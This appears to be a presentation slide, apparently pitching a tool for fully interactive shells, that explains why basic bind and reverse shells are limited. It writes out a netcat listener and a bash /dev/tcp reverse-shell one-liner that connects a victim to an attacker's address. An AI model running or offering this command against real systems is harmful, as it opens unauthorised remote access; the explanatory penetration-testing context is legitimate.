

# echo "but why?"
Rationale behind the project
Basic bind and reverse shells suck
# attacker $ nc -lnvp 9999
# victim $ bash -i >& /dev/tcp/10.0.0.1/9999 0>&1
# reverse shell on the victim $ su
error: not a tty
$ vim any_file.txt
error: not a tty
^L^[[D^[[D^[[C^[[C
^C
With a typical bind or reverse shell, you lose:
   tab completion,
     command history,
      ncurses functionality,
   and Control+C breaks your shell!